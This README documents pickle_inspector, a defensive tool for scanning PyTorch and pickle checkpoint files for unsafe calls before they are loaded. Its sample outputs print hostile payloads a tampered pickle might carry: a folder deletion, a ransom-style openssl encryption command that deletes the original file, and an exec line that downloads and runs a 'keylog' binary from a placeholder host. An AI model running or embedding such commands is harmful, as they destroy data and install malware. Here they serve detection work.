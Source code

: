 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
```sh
python3 scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: Scan pickles [-h] -i INPUT [INPUT ...] [-p {stable_diffusion_v1}] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1}, --preset {stable_diffusion_v1}
                        a whitelist preset to use: stable_diffusion_v1
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.classes:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.classes:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> STUBBED exec
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'exec' in c:
        print(c)
```
```py
> exec('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion v1
A premade whitelist for stable diffusion v1 is available in this project.

Example: Scan a stable diffusion checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, whitelists
conf = UnpickleConfig(whitelist = whitelists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1
